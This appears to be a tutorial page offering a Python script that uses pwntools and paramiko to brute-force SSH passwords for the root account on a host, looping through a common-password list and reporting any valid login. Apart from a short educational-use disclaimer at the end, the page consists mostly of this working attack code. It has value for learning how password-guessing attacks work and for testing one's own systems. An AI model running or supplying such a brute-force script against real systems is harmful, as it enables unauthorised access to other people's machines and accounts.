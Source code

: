 [pwntools SSH documentation 💥](https://docs.pwntools.com/en/stable/tubes/ssh.html "pwnlib.tubes.ssh — SSH")

---

This script uses the `pwn` and `paramiko` modules to perform an SSH login brute-force attack.
```py linenums="1"
from pwn import *
import paramiko

host = "127.0.0.1"
username = "root"
attempts = 0

with open("ssh-common-passwords.txt", "r") as password_list:
    for password in password_list:
        password = password.strip("\n")
        
        try:
            print(f"[{attempts}] Attempting password: '{password}'!")
            response = ssh(host=host, user=username, password=password, timeout=1)

            if response.connected():
                print(f"[>] Valid password found: '{password}'!")
                response.close()
                break
            response.close()
        except paramiko.ssh_exception.AuthenticationException:
            print("[X] Invalid password!")
        attempts += 1
```

!!! warning "Legal Disclaimer"
    This script is for educational purposes only. Unauthorized use of this script against systems without explicit permission is illegal and unethical.